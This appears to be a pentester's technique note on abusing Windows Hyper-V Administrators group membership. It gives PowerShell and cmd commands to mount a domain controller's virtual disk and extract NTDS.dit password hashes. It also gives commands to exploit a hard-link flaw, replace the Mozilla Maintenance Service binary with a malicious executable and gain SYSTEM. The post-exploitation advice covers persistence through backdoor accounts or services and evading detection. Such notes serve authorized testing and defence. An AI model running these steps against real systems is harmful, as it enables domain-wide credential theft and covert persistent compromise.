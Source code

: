 ### Technique Name:

Hyper-V Administrators
### Summary:

The `Hyper-V Administrators` group has unrestricted control over all Hyper-V virtual machines. If Domain Controllers are virtualized, a Hyper-V admin can exfiltrate the domain's NTDS.dit file by cloning or mounting the controller's virtual disk. Additionally, specific race condition and hard link vulnerabilities in Hyper-V's file handling (e.g., CVE-2018-0952, CVE-2019-0841) can be used to gain SYSTEM privileges via privilege escalation.
### Conditions:

- Target is running Hyper-V (Windows Server with Hyper-V role)    
- Attacker has membership in the `Hyper-V Administrators` group
- Domain Controller is virtualized (for NTDS.dit extraction)
- Vulnerability such as CVE-2018-0952 or CVE-2019-0841 is unpatched (for local escalation)
- Writable or startable services installed (e.g., Mozilla Maintenance Service)
### Enumeration:

```powershell
# Check group membership
net localgroup "Hyper-V Administrators"

# List installed VMs and their paths (requires elevated access)
Get-VM
Get-VMHardDiskDrive

# List files in VHD location
Get-ChildItem -Path "C:\ProgramData\Microsoft\Windows\Hyper-V\Virtual Hard Disks"

# Check for exploitable services
sc qc MozillaMaintenance
```
### Exploitation:

```powershell
# Clone or mount VHDX from Domain Controller (offline NTDS.dit extraction)
# Requires access to the VHD file:
Mount-VHD -Path "C:\Path\to\dc01.vhdx" -ReadOnly
# Use tools like ntdsutil or secretsdump.py on mounted image

# NT Hard Link Exploitation Example (for CVE-2018-0952)
# Replace target .vhdx with a hard link to a protected SYSTEM file
# This may cause SYSTEM to reset permissions on the file to attacker-controlled

# Taking ownership after SYSTEM modifies it:
takeown /F "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Replace with malicious binary and start service
copy malicious.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
sc start MozillaMaintenance
```
### Post-Exploitation:

- If Domain Controller VM was mounted: extract NTLM hashes from NTDS.dit using tools like `secretsdump.py`, `ntdsutil`, or `impacket`.    
- If SYSTEM was obtained via service abuse, establish persistence (e.g., new admin user, backdoor service)
- Remove or restore overwritten services or binaries to avoid detection
- Ensure that audit logs and service start events are reviewed
- If applicable, inform client to apply mitigations to block hard link abuse
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Privileged_Groups 